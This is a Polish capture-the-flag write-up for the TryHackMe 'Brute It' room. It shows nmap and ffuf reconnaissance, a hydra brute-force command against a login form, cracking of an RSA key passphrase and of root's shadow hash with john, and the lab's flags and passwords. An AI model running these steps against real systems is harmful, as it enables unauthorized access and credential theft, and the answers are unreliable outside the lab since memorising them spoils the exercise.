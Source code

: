 # Brute It
IP=10.10.70.121

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -sV -sC 10.10.70.121 
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-07-08 06:07 EDT
Nmap scan report for 10.10.70.121
Host is up (0.093s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.61 seconds
```

Zostały wykryte dwa porty: 22 (SSH) i 80 (HTTP). SSH jest w wersji OpenSSH 7.6p1. Wersja Apache to 2.4.29. Dystrybucja Linuxa to Ubuntu.

## Skanowanie

### Port 80
Rozpoczynamy od sprawdzenia portu 80. Jest to domyślna strona Apache2. Przechodzimy do enumeracji za pomocą narzędzia ffuf:

```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.70.121/FUZZ -c
```

![FFUF](img/FFUF.JPG)

Po przejściu na podstronę "admin" znajdujemy panel logowania:

![LoginPage](img/LoginPage.JPG)

W źródle strony znajdujemy informację o nazwie użytkownika:

![Username](img/Username.JPG)

Przeprowadzamy atak brute-force za pomocą narzędzia hydra:

```
hydra 10.10.70.121 http-post-form "/admin/:user=^USER^&pass=^PASS^:Username or password invalid" \
-l admin -P /usr/share/wordlists/rockyou.txt
```

![Hydra](img/Hydra.JPG)

Znamy już dane potrzebne do logowania:

```
admin:xavier
```

Logujemy się do systemu znajdując pierwszą flagę

![Web](img/Web.JPG)

```
THM{brut3_f0rce_is_e4sy}
```

Na stronie widzimy klucz prywatny RSA użytkownika john:

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,E32C44CDC29375458A02E94F94B280EA

JCPsentybdCSx8QMOcWKnIAsnIRETjZjz6ALJkX3nKSI4t40y8WfWfkBiDqvxLIm
UrFu3+/UCmXwceW6uJ7Z5CpqMFpUQN8oGUxcmOdPA88bpEBmUH/vD2K/Z+Kg0vY0
BvbTz3VEcpXJygto9WRg3M9XSVsmsxpaAEl4XBN8EmlKAkR+FLj21qbzPzN8Y7bK
HYQ0L43jIulNKOEq9jbI8O1c5YUwowtVlPBNSlzRMuEhceJ1bYDWyUQk3zpVLaXy
+Z3mZtMq5NkAjidlol1ZtwMxvwDy478DjxNQZ7eR/coQmq2jj3tBeKH9AXOZlDQw
UHfmEmBwXHNK82Tp/2eW/Sk8psLngEsvAVPLexeS5QArs+wGPZp1cpV1iSc3AnVB
VOxaB4uzzTXUjP2H8Z68a34B8tMdej0MLHC1KUcWqgyi/Mdq6l8HeolBMUbcFzqA
vbVm8+6DhZPvc4F00bzlDvW23b2pI4RraI8fnEXHty6rfkJuHNVR+N8ZdaYZBODd
/n0a0fTQ1N361KFGr5EF7LX4qKJz2cP2m7qxSPmtZAgzGavUR1JDvCXzyjbPecWR
y0cuCmp8BC+Pd4s3y3b6tqNuharJfZSZ6B0eN99926J5ne7G1BmyPvPj7wb5KuW1
yKGn32DL/Bn+a4oReWngHMLDo/4xmxeJrpmtovwmJOXo5o+UeEU3ywr+sUBJc3W8
oUOXNfQwjdNXMkgVspf8w7bGecucFdmI0sDiYGNk5uvmwUjukfVLT9JPMN8hOns7
onw+9H+FYFUbEeWOu7QpqGRTZYoKJrXSrzII3YFmxE9u3UHLOqqDUIsHjHccmnqx
zRDSfkBkA6ItIqx55+cE0f0sdofXtvzvCRWBa5GFaBtNJhF940Lx9xfbdwOEZzBD
wYZvFv3c1VePTT0wvWybvo0qJTfauB1yRGM1l7ocB2wiHgZBTxPVDjb4qfVT8FNP
f17Dz/BjRDUIKoMu7gTifpnB+iw449cW2y538U+OmOqJE5myq+U0IkY9yydgDB6u
uGrfkAYp6NDvPF71PgiAhcrzggGuDq2jizoeH1Oq9yvt4pn3Q8d8EvuCs32464l5
O+2w+T2AeiPl74+xzkhGa1EcPJavpjogio0E5VAEavh6Yea/riHOHeMiQdQlM+tN
C6YOrVDEUicDGZGVoRROZ2gDbjh6xEZexqKc9Dmt9JbJfYobBG702VC7EpxiHGeJ
mJZ/cDXFDhJ1lBnkF8qhmTQtziEoEyB3D8yiUvW8xRaZGlOQnZWikyKGtJRIrGZv
OcD6BKQSzYoo36vNPK4U7QAVLRyNDHyeYTo8LzNsx0aDbu1rUC+83DyJwUIxOCmd
6WPCj80p/mnnjcF42wwgOVtXduekQBXZ5KpwvmXjb+yoyPCgJbiVwwUtmgZcUN8B
zQ8oFwPXTszUYgNjg5RFgj/MBYTraL6VYDAepn4YowdaAlv3M8ICRKQ3GbQEV6ZC
miDKAMx3K3VJpsY4aV52au5x43do6e3xyTSR7E2bfsUblzj2b+mZXrmxst+XDU6u
x1a9TrlunTcJJZJWKrMTEL4LRWPwR0tsb25tOuUr6DP/Hr52MLaLg1yIGR81cR+W
-----END RSA PRIVATE KEY-----
```

## Eksploitacja

Zapisujemy klucz prywatny RSA do pliku i nadajemy mu uprawnienia:

![RSA](img/RSA.JPG)

Następnie zmieniamy format, aby był zrozumiały dla John'a:

![SSH2JOHN](img/SSH2JOHN.JPG)

Łamiemy hash'a:

```
john --wordlist=/usr/share/wordlists/rockyou.txt id.rsa.hash
```

![JOHN](img/JOHN.JPG)

Znając nazwę użytkownika (john), klucz prywatny RSA (id_rsa) i złamane hasło (rockinroll) próbujemy zalogować się do systemu za pomocą SSH:

![Error](img/Error.JPG)

Otrzymaliśmy błąd ze względu na zbyt duże uprawnienia klucza. Musimy zmienić uprawnienia komendą:

```
chmod 400 id_rsa
```

Ponownie logujemy się do systemu za pomocą SSH:

![SSH](img/SSH.JPG)

W katalogu domowym znajdujemy kolejną flagę w pliku user.txt:

![Flag1](img/Flag1.JPG)

```
THM{a_password_is_not_a_barrier}
```

## Zwiększenie poziomu uprawnień

Sprwadzamy jakie komendy użytkownik john może wykonać jako root:

![Cat](img/Cat.JPG)

Odczytujemy plik "shadow" i zapisujemy zahashowane hasło root'a:

![Shadow](img/Shadow.JPG)

Następnie łamiemy hash'a:

![Root](img/Root.JPG)

Znając hasło użytkownika root logujemy się na jego konto:

![Proof](img/Proof.JPG)

Odczytujemy ostatnią flagę z pliku root.txt:

![Flag2](img/Flag2.JPG)

```
THM{pr1v1l3g3_3sc4l4t10n}
```

Do zobaczenia na kolejnych CTF-ach!
